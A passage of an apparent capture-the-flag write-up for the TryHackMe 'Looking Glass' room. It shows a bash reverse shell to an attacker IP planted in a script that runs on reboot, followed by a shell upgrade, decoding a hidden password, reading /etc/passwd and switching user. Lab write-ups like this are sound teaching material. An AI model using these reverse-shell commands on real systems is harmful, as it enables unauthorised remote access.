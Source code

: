 `bash -i >& /dev/tcp/IP/PORT 0>&1`
```
echo "bash -i >& /dev/tcp/10.2.87.241/9999 0>&1" > twasBrillig.sh 
```
> And lets listen on our port and Reboot ^^
```
$ id
uid=1002(tweedledum) gid=1002(tweedledum) groups=1002(tweedledum)

```
>we got our shell on *tweedledum*^^ , lets upgrade the shell.
```python3 -c "import pty;pty.spawn('/bin/bash')"
```
> we have a file called **humptydumpty.txt** .

```
tweedledum@looking-glass:~$ cat humptydumpty.txt
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```
> In the first moment i thought its all hex so i used hex to ascii converter and i got a passowd in the last line .
```
Üÿõë@B?ZLÐ¨×í9ÿl¹hhõvk@¹éia¹vÃ­5@»<:îfÍ24ênqCÀ­×?ô1í(9;ÆNÁ\»	&°J¦·d<È_#°^Ñ^6$¸áVÑìÜÁEcuøÊéÃeI |#´sÝ@OúQýI«öwÖ£]!_õc:ì¿Ü]IVAoWö¹wm}ßEÕ°áÖ¬aâ{ïµéÖ$Fgv×ÊÎõDÐ^HÚ(qQÐåoÆ)'s`=
j«½Ö*ïrBØthe password is {hidden}

```
> I didn't know this passwod belong to whom so I read /etc/passwd : 
```
tryhackme:x:1000:1000:TryHackMe:/home/tryhackme:/bin/bash
jabberwock:x:1001:1001:,,,:/home/jabberwock:/bin/bash
tweedledum:x:1002:1002:,,,:/home/tweedledum:/bin/bash
tweedledee:x:1003:1003:,,,:/home/tweedledee:/bin/bash
humptydumpty:x:1004:1004:,,,:/home/humptydumpty:/bin/bash
alice:x:1005:1005:Alice,,,:/home/alice:/bin/bash
```
> I noticed that there is a user with the same name of the file so :
```
su humptydumpty

```
> And we got the third user ^^
```
humptydumpty@looking-glass:~$ id
uid=1004(humptydumpty) gid=1004(humptydumpty) groups=1004(humptydumpty)
```
> we have a file poetry.txt , i really gets tired reading it hahaha , there is nothing valuable.
